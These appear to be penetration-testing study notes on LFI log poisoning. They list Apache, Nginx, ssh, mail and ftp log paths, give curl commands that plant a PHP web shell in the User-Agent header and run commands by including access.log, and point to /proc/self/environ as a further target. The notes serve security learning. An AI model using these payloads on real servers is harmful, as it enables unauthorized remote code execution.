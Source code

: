 
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

The path taken in this not can also be applied to ssh,ftp,mail
	E.g
		Send malicious mail document with php and use LFI to execute on the saved mail file

Log File List
	/var/log/apache2/error.log
	/var/log/apache2/access.log
	/var/log/sshd.log
	/var/log/mail
	/var/log/vsftpd.log

Log File Paths(Might have different paths use this [LFI FUZZ](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI))
	Default
		Apache
			 `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows
		Nginx
			`/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows

Testing for log file include(Look for parameters we control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

(Control the User-Agent with burp suite or curl)
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Execute on user-agent web shell
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id"
```
**Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.


